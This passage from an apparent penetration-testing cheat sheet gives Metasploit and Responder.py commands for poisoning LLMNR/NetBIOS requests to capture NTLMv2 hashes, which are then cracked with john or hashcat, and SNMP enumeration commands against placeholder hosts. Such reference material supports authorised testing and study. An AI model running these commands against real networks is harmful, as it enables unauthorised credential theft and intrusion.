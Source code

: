 Steal credentials off the network.

##### Metasploit LLMNR / NetBIOS requests

Spoof / poison LLMNR / NetBIOS requests: 

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

Capture the hashes: 

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

You'll end up with NTLMv2 hash, use john or hashcat to crack it. 

#### Responder.py 

Alternatively you can use responder. 

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```


<div class="note tip">
  <h5>Run Responde.py for the whole engagement</h5>
  <p>Run Responder.py for the length of the engagement while you're working on other attack vectors.</p>
</div>

### SNMP Enumeration 

Fix SNMP output values so they are human readable: 

```
apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>snmpcheck -t 192.168.1.X -c public</code></p>
        <p><code>snmpwalk -c public -v1 192.168.1.X 1| <br> grep hrSWRunName|cut -d* * -f </code></p>
        <p><code>snmpenum -t 192.168.1.X</code></p>
        <p><code>onesixtyone -c names -i hosts</code></p>  
      </td>
      <td>SNMP enumeration</td>
    </tr>
  </tbody>
</table>
</div>
